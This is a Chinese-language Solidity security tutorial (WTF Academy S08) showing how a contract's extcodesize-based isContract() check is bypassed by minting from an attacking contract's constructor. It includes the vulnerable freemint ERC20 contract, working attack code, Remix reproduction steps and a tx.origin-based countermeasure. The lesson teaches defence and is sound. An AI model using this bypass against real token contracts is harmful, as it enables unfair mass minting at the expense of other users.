

# WTF Solidity 合约安全: S08. 绕过合约长度检查

我最近在重新学solidity，巩固一下细节，也写一个“WTF Solidity极简入门”，供小白们使用（编程大佬可以另找教程），每周更新1-3讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.wtf.academy)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在github: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

-----

这一讲，我们将介绍绕过合约长度检查，并介绍预防的方法。

## 绕过合约检查

很多 freemint 的项目为了限制科学家（程序员）会用到 `isContract()` 方法，希望将调用者 `msg.sender` 限制为外部账户（EOA），而非合约。这个函数利用 `extcodesize` 获取该地址所存储的 `bytecode` 长度（runtime），若大于0，则判断为合约，否则就是EOA（用户）。

```solidity
    // 利用 extcodesize 检查是否为合约
    function isContract(address account) public view returns (bool) {
        // extcodesize > 0 的地址一定是合约地址
        // 但是合约在构造函数时候 extcodesize 为0
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

这里有一个漏洞，就是在合约在被创建的时候，`runtime bytecode` 还没有被存储到地址上，因此 `bytecode` 长度为0。也就是说，如果我们将逻辑写在合约的构造函数 `constructor` 中的话，就可以绕过 `isContract()` 检查。



## 漏洞例子

下面我们来看一个例子：`ContractCheck`合约是一个 freemint ERC20 合约，铸造函数 `mint()` 中使用了 `isContract()` 函数来阻止合约地址的调用，防止科学家批量铸造。每次调用 `mint()` 可以铸造 100 枚代币。

```solidity
// 用extcodesize检查是否为合约地址
contract ContractCheck is ERC20 {
    // 构造函数：初始化代币名称和代号
    constructor() ERC20("", "") {}
    
    // 利用 extcodesize 检查是否为合约
    function isContract(address account) public view returns (bool) {
        // extcodesize > 0 的地址一定是合约地址
        // 但是合约在构造函数时候 extcodesize 为0
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint函数，只有非合约地址能调用（有漏洞）
    function mint() public {
        require(!isContract(msg.sender), "Contract not allowed!");
        _mint(msg.sender, 100);
    }
}
```

我们写一个攻击合约，在 `constructor` 中多次调用 `ContractCheck` 合约中的 `mint()` 函数，批量铸造 `1000` 枚代币：

```solidity
// 利用构造函数的特点攻击
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // 当合约正在被创建时，extcodesize (代码长度) 为 0，因此不会被 isContract() 检测出。
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // This will work
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // 合约创建好以后，extcodesize > 0，isContract() 可以检测
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

如果我们之前讲的是正确的话，在构造函数调用 `mint()` 可以绕过 `isContract()` 的检查成功铸造代币，那么函数将成功部署，并且状态变量 `isContract` 会在构造函数赋值 `false`。而在合约部署之后，`runtime bytecode` 已经被存储在合约地址上了，`extcodesize > 0`， `isContract()` 能够成功阻止铸造，调用 `mint()` 函数将失败。

## `Remix` 复现

1. 部署 `ContractCheck` 合约。

2. 部署 `NotContract` 合约，参数为 `ContractCheck` 合约地址。

3. 调用 `ContractCheck` 合约的 `balanceOf` 查看 `NotContract` 合约的代币余额为 `1000`，攻击成功。

4. 调用`NotContract` 合约的 `mint()` 函数，由于此时合约已经部署完成，调用 `mint()` 函数将失败。

## 预防办法

你可以使用 `(tx.origin == msg.sender)` 来检测调用者是否为合约。如果调用者为 EOA，那么`tx.origin`和`msg.sender`相等；如果它们俩不想等，调用者为合约。

```
function realContract(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```

## 总结

这一讲，我们介绍了合约长度检查可以被绕过的漏洞，并介绍预防的方法。如果一个地址的 `extcodesize > 0`，则该地址一定为合约；但如果 `extcodesize = 0`，该地址既可能为 `EOA`，也可能为正在创建状态的合约。